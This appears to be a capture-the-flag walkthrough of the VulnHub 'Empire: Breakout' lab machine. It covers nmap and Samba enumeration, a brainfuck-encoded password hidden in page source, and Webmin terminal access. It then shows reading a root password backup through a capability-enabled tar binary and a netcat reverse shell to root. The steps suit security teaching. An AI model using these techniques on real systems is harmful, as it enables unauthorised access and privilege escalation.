

[vulnhub - easy] empire: breakout
---------------------------------

First I scan virtualbox's host-only network to see what IP has been assigned to the machine:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -sn 192.168.56.0/24  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 22:23 -03
Nmap scan report for 192.168.56.1
Host is up (0.00016s latency).
Nmap scan report for 192.168.56.119
Host is up (0.00033s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 4.90 seconds
```

Then I proceed to scan all ports to see which ones are open:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -p- -T4 -oN nmap_info_allports 192.168.56.119
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 23:18 -03
Nmap scan report for 192.168.56.119
Host is up (0.00028s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
```

Then a detailed scan on the open ports:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ nmap -sC -sV -p 80,139,445,10000,20000 -oN nmap_info_detailed 192.168.56.119
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 23:18 -03
Nmap scan report for 192.168.56.119
Host is up (0.00052s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows

Host script results:
|_clock-skew: -3m18s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-31T02:15:55
|_  start_date: N/A
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.86 seconds
```

Since samba is being served, I can use enum4linux to enumerate this machine, so I run:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/empire-breakout]
└─$ enum4linux 192.168.56.119
[...SHORTENED INFO]

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)      
[...SHORTENED INFO]
```

Three web pages being served, two of those being MiniServ (ports 10000 and 20000), and in port 80 the following:



When checking this page's source served in port 80, I find this information commented out:

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

That's an encrypted message in the brainfuck language that reads:

```
.2uqPEfj3D<P'a-3
```

So I log into the admin page in port 20000 with Username 'cyber' and the password uncovered previously, get redirected to https://192.168.56.119:20000/mailbox/index.cgi?id=INBOX&xnavigation=1 that looks like:


This Webmin page has a terminal feature that allows for the authenticated user to use the terminal. Wen i open the terminal, this is what i find in the user's home folder:

```
[cyber@breakout ~]$ ls -l
total 524
-rwxr-xr-x 1 root  root  531928 Oct 19  2021 tar
-rw-r--r-- 1 cyber cyber     48 Oct 19  2021 user.txt
```

The 'user.txt' has the user flag and reads:

```
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

This 'tar' file has something to it that I can't point out just yet, comparing it to the tar binary it seems there's nothing different:

```
[cyber@breakout ~]$ ls -l tar
-rwxr-xr-x 1 root root 531928 Oct 19  2021 tar
[cyber@breakout ~]$ ls -l /bin/tar
-rwxr-xr-x 1 root root 531928 Feb 17  2021 /bin/tar
[cyber@breakout ~]$ diff tar /bin/tar

[cyber@breakout ~]$
```

But why create an equal copy of the same file in the user's home directory? So I decide to check the capabilities to see what I can get:

```
[cyber@breakout ~]$ getcap tar
tar cap_dac_read_search=ep
```

Which means, as stated in man7.org:

```
CAP_DAC_READ_SEARCH
              * Bypass file read permission checks and directory read
                and execute permission checks;
              * invoke open_by_handle_at(2);
              * use the linkat(2) AT_EMPTY_PATH flag to create a link to
                a file referred to by a file descriptor.
```

The 'ep' means effective permitted. That means I can read whichever file I choose to do so.

I could try to crack the shadow file, but seeing how the previous password was not crackable via bruteforce because it isn't in a password list, I try to find backup files inside the machine first.

After looking a while, I find the following in the /var/backups directory:

```
[cyber@breakout backups]$ ls -la
total 28
drwxr-xr-x  2 root root  4096 Oct 30 22:14 .
drwxr-xr-x 14 root root  4096 Oct 19  2021 ..
-rw-r--r--  1 root root 12732 Oct 19  2021 apt.extended_states.0
-rw-------  1 root root    17 Oct 20  2021 .old_pass.bak
```

So I go back to the home directory and:

```
[cyber@breakout ~]$ ./tar -cf pass.tar.gz /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
```

And then:

```
[cyber@breakout ~]$ tar -xf pass.tar.gz
```

It creates a /var/backups/.old_pass.bak in the home folder of user cyber, and it reads:

```
[cyber@breakout ~]$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

I can't su to root in the web shell, so I use nc to create a reverse shell:

```
┌──(j㉿kali)-[~/Desktop]
└─$ nc -s 192.168.56.1 -lnvp 4444
listening on [192.168.56.1] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.119] 38114
python3 -c 'import pty; pty.spawn("/bin/bash");'
cyber@breakout:~$ su root
su root
Password: Ts&4&YurgtRX(=~h

root@breakout:/home/cyber# 
```

```
root@breakout:/home/cyber# cd /root
cd /root
root@breakout:~# ls
ls
rOOt.txt
root@breakout:~# cat rOOt.txt
cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```
